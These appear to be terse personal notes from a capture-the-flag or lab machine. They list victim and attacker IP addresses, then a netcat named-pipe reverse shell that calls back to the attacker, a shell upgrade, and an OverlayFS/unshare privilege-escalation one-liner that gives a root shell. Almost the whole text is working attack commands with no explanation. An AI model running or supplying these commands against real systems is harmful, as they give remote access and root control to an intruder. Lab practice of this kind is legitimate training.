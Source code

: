 ## Victim

10.129.229.217

New Vic 10.129.229.50

tun0  10.10.14.2

## Reverse Shell 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1337 >/tmp/f

python3 -c 'import pty;pty.spawn("/bin/bash")'
 
## Exploit

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o 
rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import 
os;os.setuid(0);os.system("id")'

## root shell

python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'